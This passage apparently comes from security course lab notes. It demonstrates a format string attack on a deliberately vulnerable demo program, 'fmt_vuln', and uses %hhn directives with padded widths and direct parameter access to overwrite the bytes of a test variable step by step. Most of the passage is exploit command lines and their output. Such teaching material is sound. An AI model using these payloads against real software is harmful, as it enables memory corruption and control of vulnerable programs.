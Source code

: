 Doing some math, we see that we were writing 0x22. To get to 0xbe that
is an additional 156 bytes in the format or so.

``` {.example}
ser@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0156x.%hhn
Right: /.%#08x.%#08x.%#0156x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = -1237237439 0xb6414141
```

That was close. We are off by 8.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0164x.%hhn
Right: /.%#08x.%#08x.%#0164x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = -1103019711 0xbe414141
```

Ok, now we can write the next byte. We do this by adding another `%hhn`
to the format string and again, this format directive needs to have an
address filled.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")%#08x.%#08x.%#0164x.%hhn.%hhn
Right: /.%#08x.%#08x.%#0164x.%hhn.%hhn

Wrong: /.0xbffff2a0.0x000400.0x000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004..

[*] test_val @ 0x804a02c = -1044233919 0xc1c24141
```

Crap! We changed our format length. Now we got to do the whole
calculation again ... but as usual, there is a better way.

Instead of doing these calculations one at a time, lets take advantage
of the format directives we've learned and try and be smart about
things. Firsts, let's get verything setup so that we have all our `%hhn`
formats to write to each of the bytes in the target variable.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")$(printf "\x2d\xa0\x04\x08")$(printf "\x2c\xa0\x04\x08").%1\$08x.%4\$08x.%1\$08x.%\5\$08x.%1\$08x.%\6\$08x.%1\$08x.%\7\$08x
Right: /.-,.%1$08x.%4$08x.%1$08x.%5$08x.%1$08x.%6$08x.%1$08x.%7$08x

Wrong: /.-,.bffff280.0804a02f.bffff280.0804a02e.bffff280.0804a02d.bffff280.0804a02c

[*] test_val @ 0x804a02c = 4276545 0x00414141
```
